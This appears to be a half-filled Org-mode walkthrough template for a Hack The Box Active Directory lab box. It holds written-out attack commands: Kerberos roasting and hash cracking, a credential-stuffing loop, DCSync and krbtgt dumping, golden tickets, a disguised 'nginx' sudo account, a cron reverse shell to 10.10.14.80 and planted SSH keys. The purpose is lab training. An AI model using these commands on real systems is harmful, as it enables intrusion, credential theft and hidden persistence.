 #+filetags: :Box:HTB:Easy:Windows:LDAP:ActiveDirectory:
#+HUGO_BASE_DIR: ~/Dropbox/40-49_Career/44-Blog/bloodstiller
#+HUGO_SECTION:
#+hugo_custom_front_matter: :draft true
#+hugo_custom_front_matter: :title "<bx> HTB Walkthrough"
#+hugo_custom_front_matter: :author bloodstiller
#+hugo_custom_front_matter: :date 2025-01-14
:HIDDEN:
#+STARTUP: overview
#+STARTUP: hidestars
#+STARTUP: indent
#+STARTUP: entitiespretty
#+STARTUP: inlineimages
#+OPTIONS: H:4 toc:nil num:nil \n:nil ':nil *:t -:t ::t <:t ^:{} _:{} |:t f:t d:nil
#+OPTIONS: tex:mathjax tags:not-in-toc tasks:t title:nil
#+COLUMNS: %80ITEM %TAGS %TODO %SCHEDULED
#+TODO: TODO(t) IN-PROGRESS(i) NOTES(m) RABBITHOLE!(R) | DONE(d!) HOLD(h) WONT-DO(n)
:END:


* <bx> Hack The Box Walkthrough/Writeup:
:PROPERTIES:
:ID:       e3f25c99-179f-461d-9310-dd1f026d4ec1
:END:
- https://app.hackthebox.com/machines/<bx>

* How I use variables & Wordlists:
:PROPERTIES:
:ID:       807d55ef-43ab-462f-9307-7d03330b72d2
:END:
- *Variables*:
  - In my commands you are going to see me use ~$box~, ~$user~, ~$hash~, ~$domain~, ~$pass~ often.
    - I find the easiest way to eliminate type-os & to streamline my process it is easier to store important information in variables & aliases.
      - ~$box~ = The IP of the box
      - ~$pass~ = Passwords I have access to.
      - ~$user~ = current user I am enumerating with.
        - Depending on where I am in the process this can change if I move laterally.
      - ~$domain~ = the domain name e.g. ~sugarape.local~ or ~contoso.local~
      - ~$machine~ = the machine name e.g. ~DC01~
    - Why am I telling you this? People of all different levels read these writeups/walktrhoughs and I want to make it as easy as possible for people to follow along and take in valuable information.

- *Wordlists*:

  - I have symlinks all setup so I can get to my passwords from ~~/Wordlists~ so if you see me using that path that's why. If you are on Kali and following on, you will need to go to ~/usr/share/wordlists~
    - I also use these additional wordlists:
      - [[https://github.com/insidetrust/statistically-likely-usernames][Statistically-likely-usernames]]
      - [[https://github.com/danielmiessler/SecLists][SecLists]]
      - [[https://github.com/carlospolop/Auto_Wordlists][Auto_Wordlists]]
* 1. Enumeration:
:PROPERTIES:
:ID:       df114f61-f09f-46bc-a9d0-e1e62bf4d249
:END:
** Assumed Breach Box:
:PROPERTIES:
:ID:       8fdc027e-d7a4-4f54-9c83-4b9d26aa1453
:END:
- This box scenario assumes that the Active Directory (AD) environment has already been breached and that we have access to valid credentials.
- This approach reflects a more realistic model, given that direct breaches of AD environments from external footholds are increasingly rare today.
  - *User*:
  - *Pass*:
- +Note+:
  - Even with assumed credentials, I’ll still conduct my standard enumeration process as if I don’t have them.
    - This ensures I don’t overlook any findings just because access is available.
    - Comprehensive documentation of all discoveries remains essential.
** NMAP:
:PROPERTIES:
:ID:       0d42892c-fad3-4440-834b-6ebf6c6f41c3
:END:
*** Basic Scans:
:PROPERTIES:
:ID:       13dd3494-95f0-4c4b-b6b8-85ce11fff991
:END:
+ *Basic TCP Scan*:
  #+begin_src shell
#Command
nmap $box -Pn -oA TCPbasicScan

#Results
    #+end_src
  - *Initial thoughts*:

+ *Basic UDP Scan*:
  #+begin_src shell
#Command
sudo nmap $box -sU -Pn -oA UDPbasicScan

#Results
  #+end_src
  - *Initial thoughts*:

*** Comprehensive Scans:
:PROPERTIES:
:ID:       38e2ad58-d516-494e-bb6e-0003582ce978
:END:
+ *In depth scan TCP*:
  #+begin_src shell
#Command
sudo nmap -p- -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP

#Results
  #+end_src
  - *Findings*:

+ *In depth scan UDP*:
  #+begin_src shell
#Command
sudo nmap -p- -sU -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP

#Results
  #+end_src
  - *Findings*:

** LDAP ~389~:
:PROPERTIES:
:ID:       6a27f462-51f8-437a-9357-004faa093013
:END:
*** Using LDAP anonymous bind to enumerate further:
:PROPERTIES:
:ID:       558ffa34-2558-47bc-8f37-e1674d74d810
:END:
- If you are unsure of what anonymous bind does. It enables us to query for domain information anonymously, e.g. without passing credentials.
  - We can actually retrieve a significant amount of information via anonymous bind such as:
    - A list of all users
    - A list of all groups
    - A list of all computers.
    - User account attributes.
    - The domain password policy.
    - Enumerate users who are susceptible to AS-REPRoasting.
    - Passwords stored in the description fields
  - The added benefit of using ldap to perform these queries is that these are most likely not going to trigger any sort of AV etc as ldap is how AD communicates.

- I actually have a handy script to check if anonymous bind is enabled & if it is to dump a large amount of information. You can find it here
  - https://github.com/bloodstiller/ldapire
  - https://bloodstiller.com/cheatsheets/ldap-cheatsheet/#ldap-boxes-on-htb
    - ~python3 /home/kali/windowsTools/enumeration/ldapire/ldapire.py $box -u $user -p $pass~
      - It will dump general information & also detailed & simple information including:
        - Groups
        - Computers
        - Users
        - All domain objects
        - A file containing all description fields
        - It will also search the domain for any service/svc accounts and place them in a folder too.


  A) _We have the naming context of the domain_:
       #+begin_src shell
kali in HTB/BlogEntriesMade/Forest/scans/ldap  🍣 main 📝 ×143🗃️  ×3🛤️  ×113 1GiB/7GiB | 0B/1GiB with /usr/bin/zsh
🕙 08:32:01 zsh ❯ python3 /home/kali/windowsTools/enumeration/ldapire/ldapire.py $box

------------------------------------------------------------
 Server Information
------------------------------------------------------------
  • IP Address  : 10.129.95.210
  • Domain Name : htb.local
  • Server Name : FOREST
  • Forest Level: 7
  • Domain Level: 7

    #+END_SRC

- It turns out the anonymous bind is (+NOT+) enabled and we get the below information.

  #+begin_src shell
------------------------------------------------------------
 Connection Attempts
------------------------------------------------------------
  • Attempting SSL connection...
  ✗ Failed to connect with SSL
  • Attempting non-SSL connection...
  ✓ Connected successfully using anonymous bind

------------------------------------------------------------
 Security Warning
------------------------------------------------------------
  ⚠️  WARNING: Connected using Anonymous Bind
  ⚠️  This is a security risk and should be disabled
  #+end_src

  B) _We have the domain functionality level_:
      #+begin_src shell
  • Forest Level: 7
  • Domain Level: 7
      #+end_src
     - The functionality level determines the minimum version of Windows server that can be used for a DC.
       - +Note+: that any host os can be used on *workstations*, however the functionality level determines what the minimum version for DC's and the forest.
       - https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels
       - Knowing the function level is useful as if want to target the DC's and servers, we can know by looking at the function level what the minimum level of OS would be.

       - In this case we can see it is level 7 which means that this server has to be running Windows Server 2016 or newer.
       - Here’s a list of functional level numbers and their corresponding Windows Server operating systems:

         | Functional Level Number | Corresponding OS            |
         |                       0 | Windows 2000                |
         |                       1 | Windows Server 2003 Interim |
         |                       2 | Windows Server 2003         |
         |                       3 | Windows Server 2008         |
         |                       4 | Windows Server 2008 R2      |
         |                       5 | Windows Server 2012         |
         |                       6 | Windows Server 2012 R2      |
         |                       7 | Windows Server 2016         |
         |                       8 | Windows Server 2019         |
         |                       9 | Windows Server 2022         |

         - +Note+:
           - Each number corresponds to the minimum Windows Server version required for domain controllers in the domain or forest.
           - As the functional level increases, additional Active Directory features become available, but older versions of Windows Server may not be supported as domain controllers.

  C) _We have the full server name & domain name_:
       #+begin_src shell
------------------------------------------------------------
 Server Information
------------------------------------------------------------
  • IP Address  : 10.129.95.210
  • Domain Name : htb.local
  • Server Name : FOREST
       #+end_src
- It's pretty amazing already what we have learned just by running some fairly simple ldap queries.
  + We have the naming context.
  + Domain name.

- The script also has created several files with various amounts on information lets examine those.
  #+begin_src shell
------------------------------------------------------------
 Processing Users
------------------------------------------------------------
[+] Detailed results written to UsersDetailed.txt
[+] Basic names written to Users.txt
  ✓ Basic user names    → Users.txt
  ✓ Detailed user info  → UsersDetailed.txt

------------------------------------------------------------
 Processing Groups
------------------------------------------------------------
[+] Groups written to GroupsDetailed.txt
[+] Basic names written to Groups.txt
  ✓ Basic group names   → Groups.txt
  ✓ Detailed group info → GroupsDetailed.txt

------------------------------------------------------------
 Processing Computers
------------------------------------------------------------
[+] Computers written to ComputersDetailed.txt
[+] Basic names written to Computers.txt
  ✓ Basic computer names    → Computers.txt
  ✓ Detailed computer info  → ComputersDetailed.txt

------------------------------------------------------------
 Processing All Objects
------------------------------------------------------------
[+] Detailed results written to ObjectsDetailedLdap.txt
[+] Basic names written to Objects.txt
  ✓ Basic object names     → Objects.txt
  ✓ Detailed object info   → ObjectsDetailedLdap.txt

------------------------------------------------------------
 Processing Descriptions
------------------------------------------------------------
[+] All descriptions written to AllObjectDescriptions.txt
  ✓ All object descriptions → AllObjectDescriptions.txt
  #+end_src

It will also check for any service accounts and write them to a file:
#+begin_src shell
-----------------------------------------------------------
 Searching for Service Accounts
------------------------------------------------------------
  🔍 Searching Users.txt
  - No matches in Users.txt
  🔍 Searching UsersDetailed.txt
  ✓ Found matches in UsersDetailed.txt
  🔍 Searching Groups.txt
  ✓ Found matches in Groups.txt
  🔍 Searching GroupsDetailed.txt
  ✓ Found matches in GroupsDetailed.txt
  🔍 Searching Objects.txt
  ✓ Found matches in Objects.txt
  🔍 Searching ObjectsDetailedLdap.txt
  ✓ Found matches in ObjectsDetailedLdap.txt
  🔍 Searching AllObjectDescriptions.txt
  ✓ Found matches in AllObjectDescriptions.txt

  ✓ Service account findings written to ServiceAccounts.txt
  ✓ Found 646 potential matches

#+end_src

*** Checking the objects file:
:PROPERTIES:
:ID:       0077a4d6-6b97-4478-880f-6755a72bdcf8
:END:

*** Searching the descriptions file for any passwords:
:PROPERTIES:
:ID:       a96cef40-b1e9-4c49-870c-6cf2a94db795
:END:

*** Checking the users file:
:PROPERTIES:
:ID:       f7356e49-b6c1-496f-8ae3-497c114b0469
:END:

*** Finding an unlisted service account svc-alfresco:
:PROPERTIES:
:ID:       41c9ab86-d11f-4e08-848f-2a2c1bf9adad
:END:
*** Updating ETC/HOSTS & Variables:
:PROPERTIES:
:ID:       70c39e1a-91a2-4102-898c-d195b5b42155
:END:
- *Updated Domain & Machine Variables for Testing*:
  - Now that I have this information, I can update the ~domain~ and ~machine~ variables used in tests:
    #+begin_src shell
update_var domain "sequel.htb"
update_var machine "DC01"
    #+end_src

- *Updating* ~/etc/hosts~ *for DNS and LDAP Queries*:
  - I update my ~/etc/hosts~ file to enable tools like [[https://github.com/ropnop/kerbrute][kerbrute]] for user enumeration and other tools that require DNS or LDAP for queries:
    #+begin_src shell
sudo echo "$box   $domain $machine.$domain $machine" | sudo tee -a /etc/hosts
    #+end_src
*** Syncing Clocks for Kerberos Exploitation:
:PROPERTIES:
:ID:       d2509b2d-ec58-4483-9d01-3915d8957dc8
:END:
- Since Kerberos is enabled on this host, it's best practice to sync our clock with the host’s. This helps avoid issues from clock misalignment, which can cause false negatives in Kerberos exploitation attempts.
  - ~sudo ntpdate -s $domain~
  - +Note+: I am doing this now as we have the DNS name etc.

** DNS ~53~:
:PROPERTIES:
:ID:       72e6c6aa-a991-4b59-8a1d-9c1967f71edb
:END:
- *Using dnsenum to enumerate DNS entries*:
  #+begin_src shell
dnsenum -r --dnsserver $box --enum -p 0 -s 0 -f ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt $domain
  #+end_src
** Kerberos ~88~:
:PROPERTIES:
:ID:       1a19d7f9-b46c-44e4-902f-dbeb85742df5
:END:
*** Using [[https://github.com/ropnop/kerbrute][Kerbrute]] to bruteforce Usernames:
:PROPERTIES:
:ID:       e9be28c8-168a-48a0-8bc2-f467a8ae3ed8
:END:
- Normally I would do this but as we have creds I will skip it as we casn use other authenticated methods.
  #+begin_src shell
kerbrute userenum -d $domain --dc $box ~/Wordlists/statistically-likely-usernames/jsmith.txt
  #+end_src

*** Using netexec for ASReproasting:
:PROPERTIES:
:ID:       e5a47469-3aba-4334-b729-d3297a3a46eb
:END:
- *We should always try and asreproast with a null/guest session as it can lead to an easy win*:
  #+begin_src shell
netexec ldap $box -u '' -p '' --asreproast asrep.txt
netexec ldap $box -u $user -p $pass --asreproast asrep.txt
netexec ldap $box -u guest -p '' --asreproast asrep.txt


# This one will just work, without having to pass anything else.
impacket-GetNPUsers $domain/ -request
impacket-GetNPUsers $domain/ -dc-ip $box -usersfile Users.txt -format hashcat -outputfile asRepHashes.txt -no-pass

  #+end_src

- *Cracking ASREP ticket*:
  #+begin_src shell
#Cracking
hashcat -m 18200 asrep.txt ~/Wordlists/rockyou.txt
  #+end_src
*** Using netexec for Kerberoasting:
:PROPERTIES:
:ID:       3992f7e0-c753-4387-bfa6-86587f4837b2
:END:
- *As we have creds we can kerberoast*:
  #+begin_src shell
netexec ldap $box -u $user -p $pass --kerberoast kerb.txt
  #+end_src

- *Cracking Kerberos ticket*:
  #+begin_src shell
#Cracking
hashcat -m 13100 kerb.txt ~/Wordlists/rockyou.txt
  #+end_src
** SMB ~445~:
:PROPERTIES:
:ID:       4f2c7ccb-eaa6-4a32-95c4-87545fd949d6
:END:
*** Attempting to connect with NULL & Guest sessions:
:PROPERTIES:
:ID:       fc63ee15-d711-4a53-818d-b4138791f6e4
:END:
- *This is a standard check I always try as alot of the time the guest account or null sessions can lead to a foothold*:
  #+begin_src shell
netexec smb $box -u 'guest' -p '' --shares
netexec smb $box -u '' -p '' --shares
  #+end_src
- +Note+: We can see the build number is +Insert-Build+ We can now enumerate that.

*** Trying Usernames as Passwords:
:PROPERTIES:
:ID:       51b5cc92-1537-42c7-9e51-a41685758ef6
:END:
- *I always try usernames as passwords as well*:
  #+begin_src shell
netexec smb $box -u Users.txt -p Users.txt --shares --continue-on-success | grep [+]
  #+end_src

*** Enumerating SMB shares using netexec:
:PROPERTIES:
:ID:       607e444e-1d02-4b99-98a2-3475593e2cd8
:END:
#+begin_src shell
netexec smb $box -u $user -p $pass --shares
#+end_src

*** Using smbclient:
:PROPERTIES:
:ID:       57c70b81-c003-468c-954f-add9c67c22fb
:END:
#+begin_src shell
smbclient -U 'guest' "\\\\$box\\[Share]"
smbclient -U $domain\\$user "\\\\$box\\[Share]"

#+end_src
*** Enumerating Users with Impacket-lookupsid:
:PROPERTIES:
:ID:       edf3f6be-05e3-4dcf-ab38-7b228174cd29
:END:
- *We can use* ~impacket-lookupsid~ *to enumerate users on the domain*:
  #+begin_src shell
impacket-lookupsid $domain/guest@$machine.$domain -domain-sids
impacket-lookupsid guest@$box -domain-sids -no-pass
  #+end_src
  - +Note+: As we are using the "Guest" account we can just hit enter for a blank password
** Web ~80~:
:PROPERTIES:
:ID:       3d2c1bfb-771f-436a-b766-aa8244a9a430
:END:
- *Web Enumeration via Burp Suite*:
  - When enumerating a Website, always use Burp Suite. This allows you to:
  - Record all potential injection points.
  - Capture relevant responses for each request, making it easier to analyze vulnerabilities and track your testing progress.
*** WhatWeb:
:PROPERTIES:
:ID:       bfd1375c-71d8-4cf6-a5a2-712ccfc6acc2
:END:
- Lets run "whatWeb" to see if I can glean some further information:
  #+begin_src shell
#Command
whatweb http://$box | sed 's/, /\n/g'

#Output
  #+end_src
  - *Results*:
  - +Note+: I use sed to put the output across multiple lines for a nicer output.
*** Dirbusting The Webserver Running Using ferox:
:PROPERTIES:
:ID:       c072eb49-fe77-44ca-ba52-793d304b1922
:END:
+ I Perform some directory busting to see if there are any interesting directories:
  #+begin_src shell
#Command
feroxbuster -u http://$box:80 --threads 20 --scan-limit 2 -q -r -o $domain-FeroxScan.txt

#Result
  #+end_src
  + *Some notes on my flags*:
    - ~--threads 20 --scan-limit 2~ I limit the threads & scan limit as otherwise it effectively DDOS’ the site.
    - ~-q~ As I run tmux for most sessions, this quiet flag removes the progress bar and is advised when using tmux etc.
    - ~-r~ Follows redirects.
    - ~-o $domain-FeroxScan.txt~ sometimes there can be ALOT of output so this makes it more manageable to go through later.
*** Enumerating Injection Points:
:PROPERTIES:
:ID:       3694d9cd-6c79-4c49-af58-6f06c214c73e
:END:

** RPC:
:PROPERTIES:
:ID:       224bdc39-b44b-4c8c-a54b-128716a6f5fa
:END:
- *As we have valid credentials we can also connect to RPC to enumerate further*:
  #+begin_src shell
# Guest Session
rpcclient -U $user%$pass $box
  #+end_src
- +Cheatsheet+: I have an enumeration & attacking cheatsheet for RPC, available here:
  - https://bloodstiller.com/cheatsheets/rpc-cheatsheet/#enumerating-rpc-using-rpcclient

- *Null session via RPC*:
  - Much like SMB you can also connect to RPC via null & guest sessions, let's see if they are valid here:
    #+begin_src shell
# Guest Session
rpcclient -U "" $box
# Null Session:
rpcclient -U '%' $box

# Loop to cred stuff
while IFS= read -r user; do
    while IFS= read -r pass; do
        echo "trying Username: $user with Password: $pass $box \n"
        rpcclient -U "$user%$pass" "$box"
    done < Passwords.txt
done < Users.txt

    #+end_src
*** Enumerating domain users via RPC:
:PROPERTIES:
:ID:       5f636d7c-754a-4422-86e5-d2c6f29cd141
:END:
- *We can enumerate all the users of the domain via RPC*:
  - ~enumdomusers~

- *Querying individual users*:
  - Once we have the RID's as displayed above we can enumerate each user further. This is useful to discover if they have anything interesting in their "Description fields etc"
  - ~queryuser [RID]~
*** Enumerating groups via RPC:
:PROPERTIES:
:ID:       7f587aa4-d279-42fb-a234-707b295df4ed
:END:
- *We can also enumerate groups*:
  - ~enumdomgroups~

- *Querying individual groups*:
  - Once we have the RID's as displayed above we can enumerate each group further. Just like we did with users.
  - ~querygroup [RID]~
** Searching for known vulnerabilities for the Windows Build number:
:PROPERTIES:
:ID:       0991a49e-2991-42c8-b77c-d903ac1cbd62
:END:
+ As we were able to retrieve the build number from netexec we can enumerate for known vulnerabilities.
+ *Search the Microsoft Knowledge Base ID Number in the Microsoft Catalog*:
  - https://www.catalog.update.microsoft.com/home.aspx
  - https://www.catalog.update.microsoft.com/Search.aspx?q=KB4601056
  - +Note+:
    - We can determine how far behind the machine is on it's security updates by checking the above page.
+ Check https://msrc.microsoft.com/update-guide/vulnerability for vulns
** Performing a Bloodhound Collection:
:PROPERTIES:
:ID:       7c53790f-a1aa-4745-83ea-c2dc7d68eeff
:END:
- I use bloodhound-python to perform a collection.
  #+begin_src shell
bloodhound-python -d $domain -ns $box -c All -u $user -p $pass
  #+end_src
  - I then import these into bloodhound for investigation.
** Bloodhound Findings:
:PROPERTIES:
:ID:       dc2899ba-7561-4a58-a53b-68d7bd2c7a65
:END:

- How many domain admins:

- What users have DC Sync Privileges:

- Our users rights:

- How many users in the domain:

- Interesting user:

** Enumerating The CA Using Certipy-ad:
:PROPERTIES:
:ID:       9216e814-0228-4f9d-8c16-5fd5cfdc5413
:END:
#+begin_src shell
certipy-ad find -vulnerable -u $user@$domain -p $pass -dc-ip $box
#+end_src
* 2. Foothold:
:PROPERTIES:
:ID:       12cad379-c0d0-4c07-8b2c-28440c2582cf
:END:
1.
* 3. Privilege Escalation:
:PROPERTIES:
:ID:       d9e6b559-a369-42b5-92da-4ccd104efb1c
:END:
1.
* 4. Persistence:
:PROPERTIES:
:ID:       37a8061a-df18-452e-a13a-025297fb661f
:END:
** Dumping NTDS.dit/DCSync attack:
:PROPERTIES:
:ID:       43858f16-d1b9-48be-a790-bfbd13b17275
:END:
- *Perform DCSync attack using netexec*:
  #+begin_src
netexec smb $box -u administrator --use-kcache -M ntdsutil
  #+end_src

- *Extract all hashes from netexec*
  #+begin_src shell
for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done
  #+end_src

** Creating a Kerberos Golden Ticket:
:PROPERTIES:
:ID:       7e540f36-bd29-450a-a2af-b11be5822f4d
:END:

+ *Using* ~impacket-lookupsid~ *to get the Search for the Domain SID*:
  #+begin_src shell
impacket-lookupsid $domain/$user@$machine.$domain -domain-sids -k -no-pass
  #+end_src
  - I store this in the variable ~$sid~

+ *Using* ~impacket-secretsdump~ *to retrieve the* ~aeskey~ *of the* ~krbtgt~ *account*:
  #+begin_src shell
impacket-secretsdump $domain/$user:$pass@$box
impacket-secretsdump $domain/$user@$box -hashes :$hash
impacket-secretsdump $domain/$user:$pass@$box
  #+end_src
  - I store ~krbtgt:aes256~ value in the variable ~$krbtgt~

+ *Sync our clock to the host using ntpdate*:
  #+begin_src shell
#Using ntpdate
sudo ntpdate -s $domain

#Using faketime
faketime "$(ntpdate -q $domain | cut -d ' ' -f 1,2)"
  #+end_src

+ *Using* ~impacket-ticketer~ *to create the Golden Ticket*:

+ *Using* ~impacket-ticketer~ *to create the Golden Ticket*:
  #+begin_src shell
#Using -nthash
impacket-ticketer -nthash $krbtgt -domain-sid $sid -domain $domain Administrator
#Using -aeskey
impacket-ticketer -aesKey $krbtgt -domain-sid $sid -domain $domain Administrator
  #+end_src

+ *Export the ticket to the* ~KRB5CCNAME~ *Variable*:
  #+begin_src shell
export KRB5CCNAME=./Administrator.ccache
  #+end_src

+ *Use the ticket for connecting via* ~psexec~
  #+begin_src shell
impacket-psexec -k -no-pass $machine.$domain
  #+end_src

*** Why create a golden ticket?
:PROPERTIES:
:ID:       5a887352-90e5-435b-9d34-06b32b32d0a5
:END:
- "But bloodstiller why are you making a golden ticket if you have the admin hash?" Glad you asked:
  - Creating a Golden Ticket during an engagement is a reliable way to maintain access over the long haul. Here’s why:
  - ~KRBTGT~ *Hash Dependence*:
    - Golden Tickets are generated using the ~KRBTGT~ account hash from the target’s domain controller.
    - Unlike user account passwords, ~KRBTGT~ hashes are rarely rotated (and in many organizations, +they are never changed+), so in most cases the Golden Ticket remains valid indefinitely.
  - ~KRBTGT~ *Hash—The Key to It All (for upto 10 years)*:
    - A Golden Ticket can allow you to maintain access to a system for up to 10 years (yeah, you read that right the default lifespan of a golden ticket is 10 years) without needing additional credentials.
    - This makes it a reliable backdoor, especially if re-access is needed long after initial entry.
    - *Think about it*: even if they reset every user’s password (including the administrator etc) your Golden Ticket is still valid because it’s tied to the ~KRBTGT~ account, not individual users.
** Creating a high privileged "service" account for persistence:
:PROPERTIES:
:ID:       c5be79bb-3854-41d3-8d79-a9de8313fd6e
:END:
- I create an account called "nginx" and give myself root privileges & access to the bash shell. I use this name as it's one you could see on a machine and will raise less suspicion.

- [[file:screenshots/2024-12-22-090631_.png]]
  - ~sudo useradd -m -s /bin/bash nginx~
    - Creates a new user named ~nginx~.
    - ~-m~: Creates a home directory for the user.
    - ~-s /bin/bash~: Sets the user's default shell to ~/bin/bash~.

  - ~sudo usermod -aG sudo nginx~
    - Adds the ~nginx~ user to the ~sudo~ group.
    - ~-a~: Appends the user to the group (avoids overwriting existing groups).
    - ~-G sudo~: Specifies the ~sudo~ group.

  - ~sudo passwd nginx~
    - Sets or updates the password for the ~nginx~ user.
    - Prompts us to add a new password and confirms it.

- I switch to the newly created user
  - [[file:screenshots/2024-12-22-090700_.png]]

- I check we have sudo privileges, as expected we do.
  - [[file:screenshots/2024-12-22-090731_.png]]

- I ensure we can actually read sudo level files by reading ~/etc/shadow~
  - [[file:screenshots/2024-12-22-090801_.png]]
** Creating a cron job reverse shell:
:PROPERTIES:
:ID:       ee9f0d50-4786-40a5-a421-d96af959a911
:END:
  #+begin_src shell
(crontab -l > .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.80/80 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
  #+end_src
- [[file:screenshots/2024-12-21-075648_.png]]

- Let's verify it's in the crontab by running ~crontab -l~
  - [[file:screenshots/2024-12-21-075743_.png]]
  - As we can see it's running.

- I start my listener and get a connection back after 1 minute.
  - [[file:screenshots/2024-12-21-075844_.png]]

- +Note+: This is great as a means to call back out to our attack machine, however an interval of every 1 minute is excessive, it would typically be better to set it at longer intervals to re-connect.

** Adding an SSH key:
:PROPERTIES:
:ID:       cf55928c-d23e-43d1-9c61-af65748d27ca
:END:
+ So typically what we could do is make a new user, however I am going to generate a key for the root user we already have access too.

- *Generate SSH Key for the User*:
   #+begin_src shell
ssh-keygen -t rsa -b 4096
   #+end_src
  - [[file:screenshots/2024-12-21-080723_.png]]

- *Copy Public Key to Authorized Keys*:
  #+begin_src shell
cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
  #+end_src
  - This command copies the public key to the authorized_keys file, which is used by SSH to authenticate the user.
  - [[file:screenshots/2024-12-21-080801_.png]]

- *Copy Private key to attack machine*:
  #+begin_src shell
cat id_rsa
  #+end_src
  - [[file:screenshots/2024-12-21-080902_.png]]

- *Change the mode of the key so the permissions are not too open*:
  #+begin_src shell
sudo chmod 400 id_rsa
  #+end_src

- *Verify it works*:
  #+begin_src shell
ssh -i id_rsa root@$box
  #+end_src
- [[file:screenshots/2024-12-21-081007_.png]]
* Lessons Learned:
:PROPERTIES:
:ID:       2c027237-8833-4750-a7e7-4282b86b6b75
:END:
** What did I learn?
:PROPERTIES:
:ID:       6fe78ec6-f538-4653-a4de-987388927bb7
:END:
  1.
  2.
  3.
** What silly mistakes did I make?
:PROPERTIES:
:ID:       9c617b79-9173-496c-a4eb-7d43fb807aee
:END:
  1.
  2.

* Sign off:
:PROPERTIES:
:ID:       52ccdf4f-ff0e-405d-aa9b-42ea204b741b
:END:

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

-- Bloodstiller

-- Get in touch bloodstiller at bloodstiller dot com

* +CREDS+:
:PROPERTIES:
:ID:       6c2b5bb7-14bf-4c0d-8b05-2f25e346f0c6
:END:
** Compiled Usernames, Passwords & Hashes:
:PROPERTIES:
:ID:       4f5a86e1-5b54-49c8-a9be-b5e20e3f63bd
:END:
*** Usernames:
:PROPERTIES:
:header-args: :tangle Users.txt :mkdirp yes :perms
:ID:       70c0d96c-a165-436a-984f-d6c3518b9eaf
:END:
#+begin_src text
Administrator
Guest
Root
krbtgt
Admin
#+end_src

*** Passwords:
:PROPERTIES:
:header-args: :tangle Passwords.txt :mkdirp yes :perms
:ID:       15f28104-49ee-43ab-8b58-599d79233039
:END:
#+begin_src text

#+end_src

*** Email Names:
:PROPERTIES:
:header-args: :tangle Emails.txt :mkdirp yes :perms
:ID:       6f5c0eaa-5976-4347-874e-399a302eed66
:END:

#+begin_src text
#+end_src
*** Username & Pass:
:PROPERTIES:
:ID:       c1b57e7a-7037-43ab-9082-4f173be9323f
:END:
#+begin_src text

#+end_src


*** Hashes:
:PROPERTIES:
:header-args: :tangle Hashes.txt :mkdirp yes :perms
:ID:       efdd9b2b-1a20-40d7-b99c-eac4b22b1f0a
:END:
- *Extract all hashes from netexec*
  - *Extract only enabled hashes*:
    - ~grep -iv disabled /home/kali/.nxc/logs/*.ntds | cut -d ':' -f2,5 --output-delimiter=' ' | awk '{print $2, $1}'~
  - *Extract all hashes*
    - ~cat /home/kali/.nxc/logs/*.ntds | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'~
    - +Note+: We need to include disabled hashes to get the krbtgt hash in this method as that account is disabled by default.

#+begin_src text
#+end_src

** SSH Keys:
:PROPERTIES:
:ID:       a7494955-ab6b-4500-8d5d-e3fb9ef341bf
:END:
